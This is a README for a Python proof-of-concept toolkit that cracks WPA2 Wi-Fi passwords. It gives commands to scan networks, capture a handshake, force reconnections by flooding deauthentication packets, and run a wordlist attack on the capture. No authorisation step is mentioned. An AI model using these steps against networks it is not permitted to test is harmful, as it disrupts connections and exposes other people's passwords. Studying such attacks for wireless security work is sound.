 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Installation
  ```python
  pip3 install -r requirements.txt
  ```
  
## Usage
  You should first run wifi-scan.py to discover wifi network around you.
  The interface needs to be in monitor mode.
  ```python
  python3 wifi-scan.py --interface wlan0
  ```
  
  SSID name, BSSID and channel should be displayed for every wifi network
  You are now ready to capture the 4-Way handshake for a choosen network
  ```python
  python3 wifi-capture-handshake.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx --channel 1
  ```
  The script is now waiting for an authentication to happen, you can use the wifi-deauth.py script to hurry it
  The script will send deauthencation packets every 0.2 seconds to make an authentication happen
  example:
  ```python
  python3 wifi-deauth.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx
  ```
  
  Once you captured the wpa-handshake you are ready to start cracking the password
  ```python
  python3 wifi-crack.py --ssid name --wordlist wordlist.txt --pcap pcapfile.pcap
  ```
  Be sure to enter the good ssid, because no check is made so the script will never found the password
  
  If the password is in the wordlist, it will be found and displayed to screen.
  
  

